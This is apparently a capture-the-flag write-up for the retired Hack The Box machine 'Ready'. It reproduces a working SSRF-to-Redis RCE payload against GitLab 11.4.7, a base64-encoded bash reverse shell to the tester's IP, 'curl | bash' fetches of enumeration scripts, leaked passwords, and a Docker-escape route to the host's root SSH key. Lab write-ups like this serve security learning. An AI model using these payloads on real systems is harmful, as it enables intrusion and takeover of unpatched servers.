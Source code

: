 # Ready

This is the write-up for the box Ready that got retired at the 15th May 2021.
My IP address was 10.10.14.4 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.220    ready.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/ready.nmap 10.10.10.220
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 5080)

The website hosts **GitLab** and registering users is enabled.
After registering a user, there are no other repositories to be found.

On _/help_ it shows the version **GitLab Community Edition 11.4.7**, which is from 2018, so there may be public vulnerabilities for it.

This [article from LiveOverflow](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) explains a **Remote Code Execution** for this version of GitLab.

This vulnerability will exploit a **Server Side Request Forgery (SSRF)** to get access to internal services.
In the case of GitLab, it hosts **Redis** in the background that can be used for **RCE**.

Importing a new repository from an URL:
```
New project --> Import project --> Repo by URL
```

It normally does not allow to connect to localhost, but this will be bypassed by using an IPv6 address.
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test/test.git
```

![Importing project by URL](ready_web-1.png)

The payload has to have spaces in the beginning and this will execute `whoami` and send it to our IP on port 9001:
```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| whoami | nc 10.10.14.4 9001 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
```

The listener gets a connection and a response with _"git"_ which is the user that runs the application and this can now be used to start a reverse shell.

Base64-encoding the reverse shell command:
```
echo -n "bash -c 'bash  -i >& /dev/tcp/10.10.14.4/9001  0>&1'" | base64
```

Command to send in the payload:
```
echo -n YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85MDAxICAwPiYxJw== | base64 -d | bash
```

Sending the POST request:
```
POST /projects HTTP/1.1
Host: 10.10.10.220:5080
(...)

utf8=%E2%9C%93&authenticity_token=(...)&project%5Bimport_url%5D=git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2Ftest%2Ftest.git
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| echo -n YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85MDAxICAwPiYxJw== | base64 -d | bash \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
(...)
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as the user _git_.

## Privilege Escalation

The hostname of the box is _gitlab.example.com_ and there is a _.dockerenv_ file in the root filesystem, which means that this is a **Docker container**.

The directory _/opt/backup_ contains three files.

The file _docker-compose.yml_ is the **Docker** file to configure the **GitLab** instance.
In there it sets the root password to the file _root_pass_ in the root directory:
```
YG65407Bjqvv9A0a8Tm_7w
```

Unfortunately this password does not work anywhere else.

The file _gitlab.rb_ contains the configuration for **GitLab** that has many comments.
Filtering out all comments:
```
cat gitlab.rb | grep -v '^\#' | grep .
```
```
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

It has one password and it is possible to switch users to _root_ on the container:
```
su - root
```

### Lateral Movement

It is recommended to run a **Docker Enumeration script** like [DEEPCE](https://github.com/stealthcopter/deepce) or any **Linux Enumeration script** to get an attack surface:
```
curl 10.10.14.4:8000/deepce.sh | bash

curl 10.10.14.4:8000/linpeas.sh | bash
```

The root user has all capabilities to mount the filesystem of the host box:
```
mkdir /mnt/test

mount /dev/sda2 /mnt/test

cd /mnt/test
```

The drive _sda2_ is the filesystem of the host box and there is a private SSH key in the _/root/.ssh_ directory:
```
ssh -i root.key 10.10.10.220
```

After copying the contents of the private key to our local box, it can be used to SSH into the box as root!
